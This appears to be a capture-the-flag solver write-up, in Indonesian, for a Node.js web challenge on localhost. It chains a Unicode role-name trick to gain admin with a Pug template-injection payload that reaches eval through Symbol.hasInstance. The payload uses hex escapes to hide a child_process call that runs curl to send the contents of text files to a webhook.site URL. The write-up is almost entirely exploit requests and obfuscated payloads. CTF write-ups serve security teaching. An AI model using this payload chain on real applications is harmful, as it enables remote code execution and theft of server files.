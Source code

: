 # Solver

1. Ubah role dari user menjadi admin dengan menggunakan unicode
```
POST /profile HTTP/1.1
Host: 127.0.0.1:21291
Content-Length: 11
Content-Type: application/x-www-form-urlencoded
Cookie: connect.sid=xxxx

role=àdmin
```
2. SSTI di PugJS menggunakan Symbol.hasInstance kemudian memanggil fungsi eval
```
#{x='global\x2ep\x72ocess\x2emainModule\x2econ\x73tructor\x2e_load\x28\x27child_p\x72ocess\x27\x29\x2ee\x78ec\x28"curl\x20https://webhook\x2esite/65986ea6-ac85-4460-a5b0-430301ccbd2f\x20-d\x60cat\x20/*\x2etxt\x60"\x29'}
#{x instanceof  {[Symbol['hasInstance']]:   globalThis['ev'+'al']	}	}
```
The final poc would be something like this:
```
POST /admin HTTP/1.1
Host: 127.0.0.1:21291
Cookie: connect.sid=xxx
Content-Type: application/x-www-form-urlencoded
Content-Length: 306

name=%23{x='global\x2ep\x72ocess\x2emainModule\x2econ\x73tructor\x2e_load\x28\x27child_p\x72ocess\x27\x29\x2ee\x78ec\x28"curl\x20https://webhook\x2esite/65986ea6-ac85-4460-a5b0-430301ccbd2f\x20-d\x60cat\x20/*\x2etxt\x60"\x29'}%23{x%09instanceof%09{[Symbol['hasInstance']]:%09globalThis['ev'%2b'al']%09}%09}
```

Reference:
- https://stackoverflow.com/questions/35949554/invoking-a-function-without-parentheses